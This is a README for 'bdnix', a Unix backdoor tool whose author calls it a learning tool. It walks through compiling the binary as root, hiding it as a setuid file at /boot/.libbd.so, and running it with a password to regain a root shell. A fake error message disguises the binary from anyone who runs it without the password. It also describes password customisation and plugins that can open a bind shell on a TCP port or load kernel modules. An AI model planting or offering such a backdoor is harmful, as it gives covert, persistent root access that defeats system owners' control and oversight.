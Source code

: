  <pre>
      ___           ___           ___                       ___     
     /\  \         /\  \         /\__\          ___        |\__\    
    /::\  \       /::\  \       /::|  |        /\  \       |:|  |   
   /:/\:\  \     /:/\:\  \     /:|:|  |        \:\  \      |:|  |   
  /::\~\:\__\   /:/  \:\__\   /:/|:|  |__      /::\__\     |:|__|__ 
 /:/\:\ \:|__| /:/__/ \:|__| /:/ |:| /\__\  __/:/\/__/ ____/::::\__\
 \:\~\:\/:/  / \:\  \ /:/  / \/__|:|/:/  / /\/:/  /    \::::/~~/~   
  \:\ \::/  /   \:\  /:/  /      |:/:/  /  \::/__/      ~~|:|~~|    
   \:\/:/  /     \:\/:/  /       |::/  /    \:\__\        |:|  |    
    \::/__/       \::/__/        /:/  /      \/__/        |:|  |    
     ~~            ~~            \/__/                     \|__|    
 </pre>

<p>Trivial userspace backdoor for Unix</p>
</p>Emanuele Paiano - nixw0rm@gmail.com</p>

<h6>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!  </h6>                         

------------------
 GETTING STARTED
------------------

1) Open root terminal in current directory and go into bdnix folder
  <pre>
   # cd /path/bdnix
   </pre>
2) From root run 'make' to build binary file
  <pre>
   # make
   </pre>
3) copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,
<pre>
   # cp -p libbd.so /boot/.libbd.so
   # chmod +sx /boot/.libbd.so
   </pre>       
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 


5) Run binary with joshua to enable backdoor
<pre>
   $ /boot/.libbd.so joshua /bin/sh

   if you see '#' then.. you are root! :)
   </pre>

6) if you run without joshua password, you can read a (fake) error:
<pre>
/bin/sh: cannot execute binary file
</pre>

---------------------
 CUSTOMIZE PASSWORD
---------------------

Opening settings.h you can change default password "joshua" (can you remember WOPR?):
<pre><code>
#define ARG1 "joshua"
</code></pre>
we can change it to "chips"
<pre><code>
#define ARG1 "chips"
</code></pre>
Now recompiling (read above) and running with new password:
<pre><code>
$ /boot/.libbd.so chips /bin/sh
#
</code></pre>
If we have rootshell, it works! :)


-----------------
 ENABLE PLUGINS
-----------------
Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:
<pre><code>
/* PLUGINS */

/* enable rootshell */
#define SHELL 1
</code></pre>       
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:
<pre><code>
/* enable rootshell */
#define SHELL 0

/* my plugin */
#define MYPLUGIN 1
</code></pre>    
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-----------------------
 WRITE A CUSTOM PLUGIN
-----------------------
1) If you need write plugin, you must create .h file into plugin using next template:
<pre><code>
int <PLUGIN_NAME>_init()
{
  //code plugin
}
</code></pre>
   replacing PLUGIN_NAME with your plugin's name and write you code inside function. 

2) Open bdcode.c and find this code into main():
<pre><code>
 #if SHELL == 1
   shell_init(argv[2]);
 #endif
</code></pre>
   and edit previos code in this:
<pre><code>
 #if SHELL == 1
   shell_init(argv[2]);
 #endif
 #if PLUGIN_NAME == 1
   PLUGIN_NAME_init();
 #endif
</code></pre>
   removing PLUGIN_NAME with you plugin's name.

   TIPS EXAMPLE: you can edit RAW plugin.



----------
 LICENSE
----------
This code is released under GNU/GPL3 terms, read COPYING for info.
